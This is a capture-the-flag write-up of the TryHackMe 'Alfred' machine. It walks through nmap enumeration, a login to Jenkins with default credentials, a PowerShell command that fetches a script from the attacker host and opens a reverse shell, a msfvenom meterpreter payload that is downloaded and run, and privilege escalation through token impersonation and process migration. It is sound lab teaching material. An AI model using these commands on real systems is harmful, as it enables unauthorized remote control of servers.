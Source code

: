 ```yaml
---
title: "TryHackMe - Alfred"
author: Nasrallah
description: ""
date: 2022-05-27 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, windows, easy, jenkins, powershell, metasploit, msfvenom, meterpreter]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Alfred](https://tryhackme.com/room/alfred) from [TryHackMe](https://tryhackme.com). Easy windows machine running Jenkins in a webserver. We use some known credentials to login to Jenkins and run some command that would give us a reverse shell. After that we generate a payload using msfvenom and upload it to the target to get a meterpreter shell that would make it easy to escalate our privileges on the machine.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.209.108
Host is up (0.097s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 7.5
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
3389/tcp open  tcpwrapped
|_ssl-date: 2022-06-03T08:50:54+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2022-06-02T08:38:17
|_Not valid after:  2022-12-02T08:38:17
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We got 3 ports open, webserver on port 80, probably rdp on port 3389, and another webserver on port 8080.

### Web

Let's go to the webserver on port 80.

![](/assets/img/tryhackme/alfred/1.png)

There is a picture of Bruce Wayne and some text, nothing really interesting.

Let's go to port 8080.

![](/assets/img/tryhackme/alfred/2.png)

It's Jenkins login page. If we some of the most used credentials, we'll be able to login successfully.

![](/assets/img/tryhackme/alfred/3.png)



## **Foothold**

We need to find a place where we can execute command. To do that, go to `project`.

![](/assets/img/tryhackme/alfred/4.png)

Now go to `configure`.

![](/assets/img/tryhackme/alfred/5.png)

Great! We found a place to execute windows batch commands. Time for a reverse shell.

First, we need to download this [script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and serve it with a webserver, we can use python for that: `sudo python3 -m http.server 80`.

After that, we need to set up a listener to receive the shell: `nc -lvnp 9001`

![](/assets/img/tryhackme/alfred/6.png)

Now we need to put the following powershell command in place and run it.

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.31.131:80/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.31.131 -Port 9001
```

>Change the ip addresses to yours(tun0)

![](/assets/img/tryhackme/alfred/21.png)


After entering the command, press `save`. Then go to `Build now`

![](/assets/img/tryhackme/alfred/20.png)

Now if we go to our listener, we should see that we have received a shell.

![](/assets/img/tryhackme/alfred/7.png)


## **Privilege Escalation**

For this part, we can upgrade our shell to meterpreter in order to easily escalate our privileges.

First, let's create a payload using `msfvenom`.

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.31.131 LPORT=1234 -f exe -o shell.exe
```

>Don't forget to change the ip address.

![](/assets/img/tryhackme/alfred/8.png)

Good, let's fire up metasploit and setup a handler listener.

![](/assets/img/tryhackme/alfred/9.png)

We need to set the options to the same ones we used when we created the payload with `msfvenom`

Great! Now in the same directory where we created the exploit, set up an http server like the one we did before:`sudo python3 -m http.server 80` so that we can upload it to the target.

After that we need to execute the following powershell command in the shell we just got to upload the exploit.

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.31.131/shell.exe','shell.exe')"
```

![](/assets/img/tryhackme/alfred/23.png)

Great! We have uploaded the exploit successfully, now execute it with the command `Start-Process "shell.exe"`

![](/assets/img/tryhackme/alfred/10.png)

Now if we go to our listener on metasploit, we can see that we received a meterpreter shell.

![](/assets/img/tryhackme/alfred/11.png)

Now to have system privileges, which is the higher ranking in a windows machine, we execute the command `getsystem`.

![](/assets/img/tryhackme/alfred/12.png)

And we got it, but we need to understand how that worked. To do that, first drop a shell using the command `shell`, and then execute `whoami /priv`

> Do that as the user alfred not authority\system.

![](/assets/img/tryhackme/alfred/13.png)

With that command, we can see the different tokens we have. One of the tokens we have is `SeImpersonatePrivilege`. To abuse that, let's load a module named `incognito` and run the command `impersonate_token "BUILTIN\Administrators"`

![](/assets/img/tryhackme/alfred/14.png)

We got system privileges. Now let's go to the directory where the flag is and read it.

![](/assets/img/tryhackme/alfred/15.png)

We can't, even though we have the higher privileged token. To solve that, we need to change the process we currently in to a process that has system privilege.

First, list the processes with `ps`.

![](/assets/img/tryhackme/alfred/16.png)

We choose the **services** process, now use the command `migrate` with the process number of **services**.

![](/assets/img/tryhackme/alfred/17.png)

And we that, we have successfully rooted **Alfred**.
---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

## References

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1